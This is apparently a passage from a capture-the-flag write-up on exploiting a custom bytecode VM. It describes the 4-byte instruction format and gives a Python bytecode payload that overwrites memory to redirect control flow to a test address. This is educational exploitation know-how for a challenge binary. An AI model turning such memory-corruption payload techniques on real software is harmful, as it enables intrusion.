 After reviewing all the functionalities, I confirmed that each instruction in the VM is 4 bytes. The first two bytes often seem to be used for memory addressing, and the third byte usually serves as the primary argument.

#### Exploitation

At the start of the exploitation, I attempted to write a payload that could hijack the control flow to `0xcafebad0deadbeef` to validate the correctness of the above analysis:

```python
# 0x7fffffffd498 —▸ 0x7ffff7df9083 (__libc_start_main+243)

# -2532 = 0xfffffffffffff6d0
# target= 0xfffffffffffff810 (0x148)

bytecode = flat(
    [
        # write 0xfffffffffffff810
        0xF810F906,
        0xFFFFF907,
        0xFFFFF908,
        0xFFFFF909,
        # write 0xdeadbeef
        0xBEEF0106,
        0xDEAD0107,
        0xBAD00108,
        0xCAFE0109,
        # write 0x26
        0x015C0206,
        0x03020207,
        0x05040208,
        0x07060209,
        0x09080306,
        0x0B0A0307,
        0x0D0C0308,
        0x0F0E0309,
        0x11100406,
        0x13120407,
        0x15140408,
        0x17160409,
        0x19180506,
        0x1B1A0507,
        0x1D1C0508,
        0x1F1E0509,
        0x21200606,
        0x23220607,
        0x25240608,
        0x27260609,
        # trigger vuln
        0x00F9FF03,
        0x00000000,
    ],
    word_size=32,
)
```
